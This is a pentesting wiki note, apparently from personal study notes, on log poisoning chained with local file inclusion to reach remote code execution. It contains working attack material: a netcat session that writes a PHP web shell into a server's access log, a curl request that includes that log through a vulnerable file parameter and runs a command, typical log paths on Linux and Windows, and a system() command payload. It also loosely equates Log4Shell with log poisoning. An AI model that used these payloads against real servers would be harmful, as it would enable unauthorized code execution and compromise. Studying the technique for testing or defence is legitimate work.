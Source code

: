 # Log Poisoning

## Introduction

Log Poisoning is a type of [[File-Inclusion]] related attack that seeks to inject the log file of a server with malicious request that include code to then can then be used in an LFI payload. The infamous [[Log4Shell]] exploit is the famous recent example of Log Poisoning that leads to Remote Code Execution. Simple example being:
```bash
nc -nv $poor_web_server_ip 80
(UNKNOWN) [$poor_web_server_ip] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

## File Inclusion Code Execution

Vulnerable parameter `?file=` and  `&cmd`

```bash
curl "http://$poor_web_server/menu.php?file=c:\xampp\apache\logs\access.log&cmd=dir"
```

## Log File Locations:

To perform log poisoning we require a log file to poison. 

Linux
```bash
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access.log
# FreeBSD
/var/log/httpd-access.log
```
Windows
```
C:\xampp\apache\logs\access.log
```

[https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage](https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)
`C:\inetpub\logs\LogFiles\W3SVC1\`
`C:\inetpub\wwwroot\web.config`
Apache logs can be found in `C:\xampp\apache\logs`


## Located Controllable Log Fields

Use Burpsuite ([[BurpSuite]]) or combination of `curl` ([[Curl-Cheatsheet]]) modifying the various possible fields contained in the log. 

```bash
# curl to burp proxy
curl 127.0.0.1 --proxy 8000
```

```bash
# Test Symbol filtering 
User-Agent: Add your testing message here" 
```
Test Symbol filtering most importantly the quotation escaping like the above.
```
# From: !@#$%$^&*()"':;<>,.?/`~ 
```

Controlling a modifiable field then leads to test whether the server or website language can execute code from this log file.  Beware of server side language handling the code. Notably if you see (for example `<?php`) script tags and the following executable code then there this code is not being passed to a function  that can execute the code.  

```php
<?php system($_REQUEST['cmd']); ?>
```

`url:/path/to/log/logname.log&cmd=

## References

[https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage](https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)